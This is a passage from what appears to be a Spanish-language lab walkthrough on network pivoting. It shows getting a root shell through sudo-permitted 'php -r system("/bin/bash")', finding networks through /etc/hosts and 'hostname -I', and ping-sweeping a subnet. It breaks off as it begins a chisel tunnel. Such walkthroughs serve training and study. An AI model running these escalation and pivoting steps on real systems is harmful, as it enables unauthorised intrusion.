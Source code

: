 ![Pasted image 20241016171931](https://github.com/user-attachments/assets/9d4b2f00-a7c2-4189-8884-6d9ab32c6ac4)

Pudiendo ejecutar `php`, podemos ejecutar comandos como `root`, así que en mi caso, ejecutaré una consola como `root` con el siguiente comando

~~~ bash
sudo php -r 'system("/bin/bash");'
~~~

`-r`: Ejecutar el código proporcionado desde la terminal.
`system("/bin/bash")`: Ejecuta un comando en el sistema operativo, en este caso, hace una llamado a `bash`.

![Pasted image 20241016172743](https://github.com/user-attachments/assets/12d1088b-37d2-4e5f-b281-d10a974dc259)

## Reconocimiento otras redes

El objetivo de este laboratorio es pivotar, así que comencemos desde la máquina `10.10.10.2` a hacer un reconocimiento a través de este host para **identificar otras redes a las que tengamos alcance**, hay varias formas, dos de aquellas serían ver el archivo `/etc/hosts` o **direcciones ip que tengamos asignadas en las interfaces de red** con el comando `hostname`

~~~ bash
cat /etc/hosts

hostname -I
~~~

![Pasted image 20241007220936](https://github.com/user-attachments/assets/821f69c0-96ae-4915-a39f-dbcd6324ace8)

![Pasted image 20241007220954](https://github.com/user-attachments/assets/276a471f-68ec-4a9c-90d3-76bd07046d31)


## Bash Host Scanner
Vemos que tenemos asignada una dirección IP `20.20.20.2`, por lo que ahora haremos un escaneo de esta subred para descubrir nuevos hosts

~~~ bash
for i in $(seq 1 254); do ping -c1 20.20.20.$i & done | grep from
~~~

![Pasted image 20241007233157](https://github.com/user-attachments/assets/ada07b9e-eead-4ce3-8329-b7ad68a8e1a9)

Podemos ver que nos responde la dirección ip `20.20.20.3`

# Pivoting a 20.20.20.3 (Trust)
---
## Chisel

En este punto tenemos comunicación con el host `20.20.20.3` desde la `10.10.10.2` a través de la interfaz con la IP `20.20.20.2`, por lo que para poder alcanzar esa red con nuestra máquina atacante podemos usar `chisel` para establecer un túnel

